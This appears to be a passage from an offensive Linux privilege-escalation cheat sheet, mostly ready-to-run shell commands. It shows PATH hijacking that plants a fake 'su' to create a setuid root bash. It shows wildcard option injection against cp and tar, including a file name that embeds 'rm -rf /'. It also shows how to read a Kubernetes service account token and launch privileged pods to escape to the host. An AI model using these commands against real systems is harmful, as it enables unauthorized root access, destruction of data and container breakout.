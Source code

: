 Check for scripts or binaries owned by root but writable by user, and abuse `PATH`:
```bash
find / -perm -o=w -type f 2>/dev/null | grep "/usr/bin"
```
If a root-owned script calls binaries without full path, you can create a malicious binary earlier in `PATH`:
```bash
export PATH=/tmp/malicious:$PATH
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /tmp/malicious/su
chmod +x /tmp/malicious/su
# When root runs “su” in script, it executes /tmp/malicious/su
/tmp/rootbash -p  # drop into root shell
```
Wildcard Injection: If a script uses wildcards like `cp *.txt /root/backup/`, place a file named `--help` or `-rf` to inject options:
```bash
echo "malicious" > --help
mkdir -p /tmp/backupdir
cp --help /tmp/backupdir      # Might treat “--help” as an option
```

- If a script does something like tar -cf backup.tar `*`, place a malicious file named --checkpoint=1 to inject tar’s options, or use symlinks to overwrite files.
- If a script uses for f in `*`; do somecommand $f; done, create a filename like $(rm -rf /). Use IFS or manipulate environmental variables to change how expansions occur.
**Kubernetes Inside Container**
If `kubectl` or a service account token is present, you may be able to create privileged pods or mount the host:
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl run --rm -it --image=alpine debug -- /bin/sh
```
If you can define a pod with `hostPID: true` and `privileged: true`, you can namespace-enter the host.
